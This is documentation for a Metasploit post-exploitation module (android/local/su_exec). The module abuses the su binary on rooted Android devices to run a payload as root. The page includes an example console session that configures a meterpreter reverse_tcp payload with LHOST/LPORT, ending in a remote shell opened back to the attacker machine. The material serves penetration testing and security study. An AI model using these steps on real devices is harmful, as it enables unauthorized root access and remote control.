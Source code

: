 ## Vulnerable Application

This module uses the su binary present on rooted devices to run a payload as root.

A rooted Android device will contain a su binary (often linked with an application) that allows the user to run commands as root.
This module will use the su binary to execute a command stager as root. The command stager will write a payload binary to a
temporary directory, make it executable, execute it in the background, and finally delete the executable.

On most devices the su binary will pop-up a prompt on the device asking the user for permission.

This module will only work on *rooted* devices. An off the shelf Android device is unlikely to be rooted, however it's possible to root a device without losing the data.
Many devices can be rooted by flashing new firmware, however the existing data will be lost.

## Scenarios

You'll first need to obtain a session on the target device. To do this follow the instructions [here](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/android/meterpreter/reverse_tcp.md)

Once the module is loaded, one simply needs to set the `SESSION` option and configure the handler. 
An example session follows:

```
msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                        Information         Connection
  --  ----  ----                        -----------         ----------
  1         meterpreter dalvik/android  u0_a80 @ localhost  192.168.0.176:4444 -> 192.168.0.107:46059 (192.168.0.107)

msf exploit(multi/handler) > use exploit/android/local/su_exec
msf exploit(android/local/su_exec) > set SESSION 1
SESSION => 1
msf exploit(android/local/su_exec) > set payload linux/aarch64/meterpreter/reverse_tcp
payload => linux/aarch64/meterpreter/reverse_tcp
msf exploit(android/local/su_exec) > set LHOST 192.168.0.176
LHOST => 192.168.0.176
msf exploit(android/local/su_exec) > set LPORT 4445
LPORT => 4445
msf exploit(android/local/su_exec) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.0.176:4445
[*] Transmitting intermediate midstager...(256 bytes)
[*] Sending stage (818780 bytes) to 192.168.0.107
[*] Meterpreter session 2 opened (192.168.0.176:4445 -> 192.168.0.107:49710) at 2018-10-01 17:44:50 +0800
[-] Exploit failed: Rex::TimeoutError Operation timed out.
[*] Exploit completed, but no session was created.

```

Please not that in most cases you will have to manually confirm the Superuser prompt 
on the device itself before the module completes. You can do `set WfsDelay 10` to
give yourself more time.

